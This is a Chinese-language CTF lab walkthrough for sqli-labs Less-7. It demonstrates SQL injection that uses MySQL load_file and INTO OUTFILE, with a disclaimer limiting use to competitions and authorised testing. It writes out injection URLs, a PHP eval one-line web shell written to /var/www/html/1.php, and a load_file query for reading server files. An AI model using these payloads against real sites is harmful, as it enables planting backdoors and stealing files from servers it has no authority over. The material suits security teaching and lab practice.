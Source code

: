 ## 一、免责声明

该课程中涉及的技术只适合于CTF比赛和有合法授权的渗透测试。请勿用于其他非法用途，如果作于其他非法用途，与本文作者无关。


## 二、简介

文件读取注入指的是我们可以利用sql的函数来进去下载和上传文件。我们可以利用此来上传木马获取shell，或者来下载系统文件。

## 三、函数介绍

sql文件注入主要采用下面的两个函数，同时能否上传或者下载成功还存在诸多的限制。

### 读取文件：load_file(）

>1. 当前权限对该文件可读
>2. 文件在该服务器上
>3. 路径完整
>4. 文件大小小于max_allowed_packet
>5. 当前数据库用户有FILE权限
>6. secure_file_priv的值为空，如果值为某目录，那么就只能对该目录的文件进行操作

### 上传文件：

>1. 目标目录要有可写权限
>2. 当前数据库用户要有FILE权限
>3. 目标文件不能已存在
>4. secure_file_priv的值为空
>5. 路径完整

## 四、题目链接

>http://39.98.88.18:49005/Less-7/index.php?id=1

## 五、and 判断闭合

在前面几关中，我们在语句后面添加一个单引号，语句报错。同时，显示出报错语句，我们可以根据来进行闭合。然后注入。

但是在下面的关卡中，将不会像前面几关那样爆出sql语句的错误，而是给了我们一个提示，告诉我们sql语句错误。

![](img/2.6/1.png)

加单引号后报错，虽然没有给出sql错误语句。但是可以判断的是，后台已经将sql语句带入了数据库中执行。

因此可以判定存在注入。

接下来我们尝试闭合，我们使用的闭合语句如下：

> ' and 1=1 --+

> ' and 1=2 --+

or　运算符只有当两边同是为真的时候才为真。为真则显示结果，为假则不显示。看如下链接

>http://39.98.88.18:49005/Less-7/index.php?id=1' and  1=1 --+

我们将其带入数据中执行一下：

![](img/2.6/2.png)

可以看出1=1为永真，如果我们使用　' and 1=1测试的时候，返回了正常页面，则可以说明两边为真。即前面闭合成功。此时，我们再用１＝２，提示错误。则说明闭合成功


## 六、实战

1、闭合

用上面的方法进行判断，发现其是可以用’))来闭合。

>http://39.98.88.18:49005/Less-7/index.php?id=1')) and 1=1--+

![](img/2.6/3.png)

>http://39.98.88.18:49005/Less-7/index.php?id=1')) and 1=2--+

![](img/2.6/4.png)
2.判断列数

>http://39.98.88.18:49005/Less-7/index.php?id=1')) order by 4--+

![](img/2.6/5.png)


３.判断权限

有网页的文件可以得知，我们需要outfile..所以我们尝试文件注入来进行上传文件。首先先判读一下权限。

>http://39.98.88.18:49005/Less-7/index.php?id=1')) and (select count(*) from mysql.user)>--+

如果返回成功，则表示是系统的最高权限，即root权限，否则不是，即一般不可对其进行文件注入

![](img/2.6/7.png)

接下来需要进行网站绝对路径的判断，在此不过多叙述：

>https://blog.csdn.net/jihaichen/article/details/80211769


4.上传木马

>http://39.98.88.18:49005/Less-7/index.php?id=1')) union select 1,2,'<?php @eval($_POST["cmd"]);?>' into outfile '/var/www/html/1.php'--+

执行完上面的url以后，页面报错。我们看一下我们的木马是否上传成功。在浏览器访问我们的木马地址

>http://39.98.88.18:49005/1.php

![](img/2.6/8.png)

发现此时上传成功，并且成功解析。

５．使用菜刀连接

由于本人使用的是kali。weevely 生成的木马实在太长，试了好多次都没有上传成功。所以我就复制了一个上去

![](img/2.6/10.png)

可以看出连接成功

关于菜刀的连接一句话还望大佬们自己尝试。有问题可以随时在星球留言。

6.load_file() 函数在此不过多叙述，使用方法与into outfile 类似.例子如下：

>http://127.0.0.1/index.php?age=-1 union select 1,2,3,4,load_file(‘H:/wamp64/www/233.php’)

日后遇到比较好的靶场，再给大家详细讲解。
